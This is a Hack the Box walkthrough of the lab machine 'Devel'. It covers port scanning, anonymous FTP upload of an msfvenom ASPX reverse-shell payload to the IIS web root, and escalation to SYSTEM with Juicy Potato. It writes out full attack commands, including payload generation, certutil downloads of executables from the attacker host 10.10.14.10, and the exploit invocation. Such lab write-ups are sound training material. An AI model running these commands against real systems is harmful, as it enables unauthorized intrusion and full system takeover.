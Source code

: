 ```yaml
---
title: Hack the Box - Devel
date: 2022-08-08 18:42:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


# Devel Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.5|Devel|Windows|

## Path to Exploitation

On this machine, we will take advantage of a convenient FTP server that accepts anonymous logins and is placed directly in the website's root directory. Then we'll take advantage of our local user's permissions and use the Juicy Potato exploit to elevate our privileges to SYSTEM.

# Enumeration

## Full Port Scan

```bash
nmap 10.10.10.5 -p- -oA Devel/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|21|ftp|
|80|http|

## Service Scan

```bash
nmap 10.10.10.5 -p 21,80 -sC -sV -oA Devel/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|21|ftp|ftpd|
|80|http|IIS httpd 7.5|

# FTP

We see we have anonymous access to the FTP server
![FTP Anon Access](/assets/HackTheBox/Devel/ftp-anon.png "Anonymous FTP Access")

Which appears to be the root directory of an IIS server. We can try to leverage this to gain a shell by uploading a payload to the website.

# Shell on Host

Create the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.aspx
```

Upload the file to the FTP server
![Upload Payload](/assets/HackTheBox/Devel/file-upload.png "Upload Payload")

Setup a listener and navigate to the payload on the web server
![Trigger Payload](/assets/HackTheBox/Devel/trigger-payload.png "Trigger the Payload")

We see we got a shell as the web user

![Intial Foothold](/assets/HackTheBox/Devel/initial-foothold.png "Intial Foothold")

# Local Enumeration

## Username Enumeration
```shell
C:\> whoami /priv
```

![Whoami Privs](/assets/HackTheBox/Devel/whoami-privs.png "Whoami Privileges")

## System Information
```shell
C:\> systeminfo
```
![System Info](/assets/HackTheBox/Devel/system-info.png "System Info")

We can consider using the Juicy Potato exploit

# Privilege Escalation

Generate the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the juicy potato exploit file and the reverse shell payload to the host
```shell
C:\> certutil -urlcache -f http://10.10.14.10/juicypotato.exe juicy.exe
C:\> certutil -urlcache -f http://10.10.14.10/evil.exe evil.exe
```

setup a listener and execute the exploit
```shell
C:\> juicy.exe -l 1337 -p C:\tmp\evil.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```

Checking back on the listener we see we have a shell running as the SYSTEM account

![SYSTEM Shell](/assets/HackTheBox/Devel/system-shell.png "SYSTEM Shell")